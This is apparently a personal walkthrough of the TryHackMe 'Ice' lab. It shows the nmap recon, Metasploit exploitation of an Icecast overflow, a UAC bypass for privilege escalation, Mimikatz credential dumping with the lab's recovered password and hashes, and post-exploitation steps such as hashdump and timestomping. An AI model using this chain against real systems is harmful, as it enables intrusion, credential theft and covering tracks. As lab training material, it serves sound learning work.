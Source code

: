 # Matheus Jesus 04-04-2020

## Try Hack Me - [Ice](https://tryhackme.com/room/ice) - Continuation of Blue

### IP 10.10.180.149

#### 1. Recon - Net Scan

nmap -sV -sC -sS -oN nmap_initial 10.10.180.149

```text
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-date: 2020-04-04T15:24:10+00:00; -1h00m11s from scanner time.
5357/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
8000/tcp  open  http               Icecast streaming media server
|_http-title: Site doesn't have a title (text/html).
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
49161/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: DARK-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

##### Port 3389 is a Microsoft Remote Desktop

##### Port 8000 running Icecast

### 2. Look for vulnerabilities on Icecast

https://www.cvedetails.com/

search for Icecast
Find list of vulnerabilities of rank **7.5**

Execute Code Overflow - CVE-2004-1561 on Metasploit

#### Mestasploit

search CVE-2004-1561
exploit/windows/http/icecast_header

set RHOSTS
exploit

### 3. Escalate Privilege

#### Meterpreter

sysinfo -> Windows build 7601
ps -> Icecast run by Dark (user)

##### Test Win x64 exploits

run post/multi/recon/local_exploit_suggester

```text
[*] 10.10.180.149 - Collecting local exploits for x86/windows...
[*] 10.10.180.149 - 30 exploit checks are being tried...
[+] 10.10.180.149 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.180.149 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
[+] 10.10.180.149 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.180.149 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.180.149 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.180.149 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.180.149 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.180.149 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```

##### Back on metasploit

use exploit/windows/local/bypassuac_eventvwr
set SESSION 1

run -> it will fail to create a session

show options

SET LHOST 10.9.5.234 (VPN IP Address)

run

##### Back on Meterpreter - Escalated

getprivs -> SeTakeOwnershipPrivilege

### 4. Looting

migrate -N spoolsv.exe

Mimikats password dumping tool
load kiwi

creds_all (retrieve all credentials)

```text
[*] Retrieving all credentials
msv credentials
===============

Username  Domain   LM                                NTLM                              SHA1
--------  ------   --                                ----                              ----
Dark      Dark-PC  e52cac67419a9a22ecb08369099ed302  7c4fe5eada682714a036e39378362bab  0d082c4b4f2aeafb67fd0ea568a997e9d3ebc0eb

wdigest credentials
===================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
DARK-PC$  WORKGROUP  (null)
Dark      Dark-PC    Password01!

tspkg credentials
=================

Username  Domain   Password
--------  ------   --------
Dark      Dark-PC  Password01!

kerberos credentials
====================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
Dark      Dark-PC    Password01!
dark-pc$  WORKGROUP  (null)
```

### 5. Post-Exploitation

help -> on Meterpreter

hashdump -> get all password hashes
screenshare -> watch screen
timestopm -> change timestamp of files

Access Remote Desktop with Remmina

### Exploiting without Metasploit

https://www.exploit-db.com/exploits/568

DONE!
